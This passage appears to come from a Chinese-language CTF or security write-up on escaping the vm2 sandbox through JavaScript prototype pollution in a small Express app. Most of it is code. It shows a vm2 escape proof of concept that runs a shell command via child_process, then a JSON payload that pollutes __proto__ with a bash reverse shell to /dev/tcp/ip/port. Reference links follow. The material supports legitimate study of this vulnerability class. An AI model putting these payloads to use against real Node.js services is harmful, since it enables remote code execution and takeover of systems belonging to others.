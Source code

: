 ```js
        var copybody = clone(body)
        // 这里调用了shit属性，需要传入这个参数，然后还需要去污染shellcode
        if (copybody.shit) {
            backdoor()
        }
        res.send("post shit ok")
    }catch(e){
        res.send("is it shit ?")
        console.log(e)
    }
})

app.listen(3000, function () {
    console.log('start listening on port 3000');
});
```

**vm2 原型链污染导致沙箱逃逸 poc：**

```js
let res = import('./app.js')
res.toString.constructor("return this")().process.mainModule.require("child_process").execSync("whoami").toString();

```

**将poc转换成json格式playload**

```java
{"shit":1,"__proto__":{"shellcode":"let res = import('./app.js'); res.toString.constructor(\"return this\") ().process.mainModule.require(\"child_process\").execSync('bash -c \"bash -i >& /dev/tcp/ip/port 0>&1\"').toString();"}} 

```



参考：

https://www.leavesongs.com/PENETRATION/javascript-prototype-pollution-attack.html

https://www.cnblogs.com/zpchcbd/p/16899212.html

https://www.anquanke.com/post/id/207291

https://xilitter.github.io/2023/01/31/vm%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E5%88%9D%E6%8E%A2/index.html

https://github.com/patriksimek/vm2/issues/225